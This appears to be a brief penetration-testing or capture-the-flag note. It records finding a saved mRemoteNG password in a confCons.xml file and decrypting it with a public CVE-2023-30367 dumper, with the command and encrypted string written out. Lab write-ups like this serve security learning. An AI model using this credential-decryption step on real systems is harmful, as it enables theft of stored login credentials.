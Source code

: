 - Found saved password for **`mRemoteNG`** application in `AppData/Local/`in `confCons.xml`file:
	- ![[Pasted image 20250422161458.png]]
- Crack using : https://github.com/S1lkys/CVE-2023-30367-mRemoteNG-password-dumper
- `python3 mremoteng_decrypt.py -s 'aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=='`
- ![[Pasted image 20250422161534.png]]
